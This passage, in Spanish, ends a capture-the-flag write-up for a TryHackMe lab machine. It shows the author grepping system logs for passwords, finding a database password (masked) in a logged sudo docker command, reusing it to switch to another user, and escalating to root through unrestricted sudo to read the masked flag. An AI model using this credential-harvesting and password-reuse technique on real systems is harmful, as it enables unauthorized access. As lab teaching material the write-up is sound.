/var/log/apt/term.log
/var/log/dmesg.3.gz
/var/log/syslog.1
/var/log/dmesg.0
/var/log/dmesg.2.gz
/var/log/installer
/var/log/installer/subiquity-client-info.log.2016
/var/log/installer/subiquity-server-debug.log.2061
/var/log/installer/curtin-install/subiquity-curthooks.conf
/var/log/installer/curtin-install/subiquity-initial.conf
/var/log/installer/curtin-install/subiquity-extract.conf
/var/log/installer/curtin-install/subiquity-partitioning.conf
/var/log/installer/subiquity-server-info.log.2061
/var/log/installer/autoinstall-user-data
/var/log/installer/subiquity-client-debug.log.2016
/var/log/installer/installer-journal.txt
/var/log/installer/cloud-init.log
/var/log/installer/subiquity-curtin-apt.conf
/var/log/nginx
/var/log/nginx/access.log
/var/log/nginx/error.log.1
/var/log/nginx/access.log.2.gz
/var/log/nginx/access.log.1
/var/log/nginx/error.log
/var/log/cloud-init.log
/var/log/dmesg.1.gz
/var/log/syslog
/var/log/auth.log
/var/log/kern.log.3.gz
/var/log/cloud-init-output.log
/var/log/auth.log.2.gz
/var/log/auth.log.2
/var/spool/rsyslog
/etc/cloud/ds-identify.cfg
/etc/cloud/clean.d/99-installer
/etc/cloud/cloud.cfg.d/99-installer.cfg
/etc/hosts
/etc/hostname
tim@silver-platter:~$
```

Con la ayuda de la herramienta grep, buscamos entre todos los ficheros con palabras claves como "*pass*" y "*pwd*", donde logramos enumerar las credenciales de **PostgreSQL**:
```
tim@silver-platter:/var/log$ grep -ri tyler --colour | grep -iE "pass|pwd" --colour
............<SNIP>................
auth.log.2:Dec 13 15:41:17 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker exec -it postgresql psql -U postgres
auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=************** -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
............<SNIP>................

```

Probamos la contraseña sobre el usuario *Tyler*, logramos acceder con su cuenta, utilizamos el comando *sudo -l* y vemos que tenemos permisos elevados "*(ALL : ALL) ALL*", esto nos permite obtener una shell como root utilizando **SUDO**:
```
tim@silver-platter:/var/log$ su tyler
Password: 
tyler@silver-platter:/var/log$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

Ejecutamos el siguiente comando, conseguimos acceder como *root* y leer la última flag:
```
tyler@silver-platter:/var/log$ sudo su
root@silver-platter:/var/log# cat /root/root.txt 
THM{***************************}
root@silver-platter:/var/log#

```

¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!